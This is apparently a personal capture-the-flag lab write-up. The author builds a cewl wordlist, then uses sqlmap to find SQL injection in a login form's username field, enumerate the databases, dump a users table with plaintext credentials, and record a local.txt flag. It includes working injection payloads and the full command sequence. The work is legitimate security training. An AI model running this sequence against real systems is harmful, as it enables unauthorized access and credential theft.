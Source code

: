 ![[Pasted image 20250106165540.png]]

#### cewl
- created a word list with `cewl` because the website is littered with `space` stuff
![[Pasted image 20250106172345.png]]
- cewl
```bash
┌──(root💀gobots)-[06Jan2025 22:12:42]-[/home/kali/SUT/192.168.61.86]
└─# cewl -d 2 -m 5 -w ourWordlist.txt http://192.168.61.86
```
- passwords.txt
```bash
┌──(root💀gobots)-[06Jan2025 22:22:48]-[/home/kali/SUT/192.168.61.86]
└─# tail passwords.txt         
pushes
happen
Thus
physicists
seemed
because
head
start
received
Truly

```
- didnt get anything with a `sniper` attack
![[Pasted image 20250106172500.png]]

#### SQL
- took a `login_post.txt` from the login page
![[Pasted image 20250106172611.png]]
- to begin `sqlmap`
```bash
┌──(root💀gobots)-[06Jan2025 22:12:42]-[/home/kali/SUT/192.168.61.86]
└─# ls                                                    
login_post.txt  ourWordlist.txt  passwords.txt

┌──(root💀gobots)-[06Jan2025 22:25:17]-[/home/kali/SUT/192.168.61.86]
└─# cat login_post.txt 
POST /login.php HTTP/1.1
Host: 192.168.61.86
Content-Length: 28
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Origin: http://192.168.61.86
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/130.0.6723.70 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.61.86/login.php
Accept-Encoding: gzip, deflate, br
Cookie: PHPSESSID=0e711d49658d622328e33eb5cb6f2b98
Connection: keep-alive

username=kaleb&password=test

```

##### SQLmap start
- `mySQL` 5.6
- `Username is vulnerable` to time based and error based and union queries

![[Pasted image 20250106172925.png]]
![[Pasted image 20250106172955.png]]
```bash
┌──(root💀gobots)-[06Jan2025 22:25:21]-[/home/kali/SUT/192.168.61.86]
└─# sqlmap -r login_post.txt --batch --risk=1 --level=3
[22:12:42] [INFO] POST parameter 'username' appears to be 'MySQL >= 5.0.12 AND time-based blind (query SLEEP)' injectable                                                                    
[22:12:42] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'                                                                                                                     
[22:12:42] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found                                        
[22:12:42] [INFO] 'ORDER BY' technique appears to be usable. This should reduce the time needed to find the right number of query columns. Automatically extending the range for current UNIO
N query injection technique test                                                                                                                                                             
[22:12:42] [INFO] target URL appears to have 3 columns in query                                                                                                                              
[22:12:42] [INFO] POST parameter 'username' is 'Generic UNION query (NULL) - 1 to 20 columns' injectable                                                                                     
POST parameter 'username' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N                                                                                            
sqlmap identified the following injection point(s) with a total of 1142 HTTP(s) requests:                                                                                                    
---                                                                                                                                                                                          
Parameter: username (POST)                                                                                                                                                                   
    Type: error-based                                                                                                                                                                        
    Title: MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)                                                                                           
    Payload: username=kaleb' AND GTID_SUBSET(CONCAT(0x71706b6a71,(SELECT (ELT(2584=2584,1))),0x7170706b71),2584)-- uWQx&password=test                                                        
                                                                                                                                                                                             
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: username=kaleb' AND (SELECT 7842 FROM (SELECT(SLEEP(5)))uqeI)-- UBMD&password=test

    Type: UNION query
    Title: Generic UNION query (NULL) - 3 columns
    Payload: username=-4305' UNION ALL SELECT NULL,CONCAT(0x71706b6a71,0x704f516e414c626667714864794b5a6b664541645267686f71596a46695976705146444e4b786f54,0x7170706b71),NULL-- -&password=test
---
[22:12:42] [INFO] the back-end DBMS is MySQL
web server operating system: Linux Debian 10 (buster)
web application technology: Apache 2.4.38, PHP 7.2.34
back-end DBMS: MySQL >= 5.6
[22:12:42] [INFO] fetched data logged to text files under '/root/.local/share/sqlmap/output/192.168.61.86'

[*] ending @ 22:12:42 /2025-01-06/



```
- getting databases
```bash
┌──(root💀gobots)-[06Jan2025 22:25:21]-[/home/kali/SUT/192.168.61.86]                                                                                                                        
└─# sqlmap -r login_post.txt -p username --dbs --batch                                                                                                                                       
```
![[Pasted image 20250106173036.png]]![[Pasted image 20250106173104.png]]
- checking out `starfires` database by dumping the `tables`

```bash
┌──(root💀gobots)-[06Jan2025 22:38:43]-[/home/kali/SUT/192.168.61.86]                                                                                                                        
└─# sqlmap -r login_post.txt -p username -D starfires --tables --batch 
```
![[Pasted image 20250106174620.png]]
- now that we have the `tables` going to identify the `columns`
```bash
┌──(root💀gobots)-[06Jan2025 22:40:06]-[/home/kali/SUT/192.168.61.86]
└─# sqlmap -r login_post.txt -p username -D starfires -T users --columns --batch
```

![[Pasted image 20250106174737.png]]
![[Pasted image 20250106174800.png]]
- once we know this is where the credentials are going to dump them

```bash
┌──(root💀gobots)-[06Jan2025 22:40:47]-[/home/kali/SUT/192.168.61.86]                                                                                                                        
└─# sqlmap -r login_post.txt -p username -D starfires -T users --dump --batch           
```
![[Pasted image 20250106175025.png]]![[Pasted image 20250106175052.png]]
- now we have credentials we can login at `http://192.168.61.86/login.php`

```bash
+----+--------------------+----------+
| id | password           | username |
+----+--------------------+----------+
| 1  | hsuiaushdhaksjia99 | kaleb    |
| 2  | sdjsikjdhhdha^21   | admin    |  
+----+--------------------+----------+
```
local.txt
![[Pasted image 20250106175242.png]]
burp showing login
![[Pasted image 20250106175439.png]]
```bash
local.txt - 4c6d250f6aeda0338d8f13366f14cc5b
```